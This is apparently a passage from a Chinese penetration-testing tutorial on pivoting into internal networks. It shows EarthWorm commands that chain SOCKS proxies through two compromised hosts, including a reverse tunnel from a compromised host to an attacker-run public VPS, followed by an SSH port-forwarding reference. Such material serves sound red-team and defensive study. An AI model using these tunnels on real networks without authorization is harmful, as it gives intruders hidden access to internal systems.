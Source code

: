 ### 二级网络环境（有公网IP）

假设我们获得了右侧A主机和B主机的控制权限，A主机配有2块网卡，一块10.129.72.168连通外网，一块192.168.153.140只能连接内网B主机，无法访问内网其它资源。B主机可以访问内网资源，但无法访问外网。

![img](内网渗透&横向移动/1606876288_5fc6fc80d5cb1db233661.png!small)

先上传ew到B主机，利用ssocksd方式启动8888端口的SOCKS代理，命令如下`ew_for_Win.exe -s ssocksd -l 8888`

A主机执行：`ew_for_Win.exe -s lcx_tran -l 1080 -f 192.168.153.138 -g 8888`(将1080端口收到的代理请求转交给B主机（192.168.153.138）的8888端口)

MyPc就可以通过A的外网代理10.129.72.168:1080访问B。

### 二级网络（无公网IP）

假设我们获得了右侧A主机和B主机的控制权限，A主机（NAT）没有公网IP，也无法访问内网资源。B主机可以访问内网资源，但无法访问外网。

![img](内网渗透&横向移动/1606876319_5fc6fc9f5e6fcab88b21d.png!small)

1.  在公网vps（45.xxx.xxx.72）添加转接隧道，将10800端口收到的代理请求转交给8888端口`./ew_for_linux64 -s lcx_listen -l 10800 -e 8888`

2.  B主机（192.168.153.138）主机正向开启9999端口

    `./ew_for_Win.exe -s ssocksd -l 9999`

3.  A主机利用lcx_slave方式，将公网VPS的888端口和B主机的999端口连接起来

    `./ew_for_Win.exe -s lcx_slave -d 45.xxx.xxx.72 -e 8888 -f 192.168.153.138 -g 9999`

现在MyPC可通过访问45.xxx.xxx.72:10800来使用192.168.153.138主机提供的socks5代理，代理成功，vps会有rssocks cmd_socket OK!提示



## SSH隧道代理转发

sh有三个强大的端口转发命令，分别是本地转发、远程转发、动态转发。

```sh
ssh -qTfnN -D port remotehost

参数详解：
-C 允许压缩数据
-q 安静模式
-T不占用 shell
-f 后台运行，并推荐加上 -n 参数
-N不执行远程命令
-g允许远端主机连接本地转发的端口
-n把 stdin 重定向到 /dev/null (防止从 stdin 读取数据)
-L port:host :hostport 正向代理
//将本地机(客户机)的某个端口转发到远端指定机器的指定端口
-R port:host :hostport 反向代理
//将远程主机(服务器)的某个端口转发到本地端指定机器的指定端口
-D port socks5代理
//指定一个本地机器 "动态" 应用程序端口转发
```

